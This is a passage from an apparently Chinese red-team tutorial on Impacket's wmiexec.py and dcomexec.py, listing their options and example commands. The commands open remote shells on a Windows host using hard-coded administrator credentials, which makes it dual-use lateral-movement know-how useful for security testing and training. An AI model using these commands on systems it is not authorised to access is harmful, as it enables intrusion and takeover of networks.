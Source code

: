 ```plain
-session-id SESSION_ID 使用登录的SESSION运行（无回显，不会主动调用cmd如silentcommand）
-silentcommand 不运行cmd.exe，直接运行命令
```

### wmiexec.py

可使用密码认证、hash认证、kerberos认证。

#### 常用命令

```plain
py -3 wmiexec.py test/administrator:1qaz@WSX@192.168.40.156
```

[![](assets/1702372846-9b4b710fc397ac6f507399d9f963637f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123309-19264cea-6bb1-1.png)

#### 常用选项

```plain
-share SHARE 设置连接的共享路径，默认ADMIN$
-nooutput 不获取输出，没有SMB连接
-silentcommand 不运行cmd.exe，直接运行命令
-shell-type {cmd,powershell} 设置返回的Shell类型
-com-version MAJOR_VERSION:MINOR_VERSION 设置DCOM版本
```

### dcomexec.py

可使用密码认证、hash认证、kerberos认证。

一般使用MMC20，而且DCOM有时候会遇到0x800706ba的错误，一般都是被防火墙拦截。

#### 常用命令

```plain
py -3 dcomexec.py -object MMC20 test.com/administrator:1qaz@WSX@192.168.40.156
```

[![](assets/1702372846-bf199a3dc6586f50f7fd741e11b95a02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123320-2005f006-6bb1-1.png)

#### 常用选项

```plain
-share SHARE 设置连接的共享路径，默认ADMIN$
-nooutput 不获取输出，没有SMB连接
-object [{ShellWindows,ShellBrowserWindow,MMC20}] 设置RCE利用的类型
-com-version MAJOR_VERSION:MINOR_VERSION 设置DCOM版本
-shell-type {cmd,powershell} 设置返回的Shell类型
-silentcommand 不运行cmd.exe，直接运行命令
```
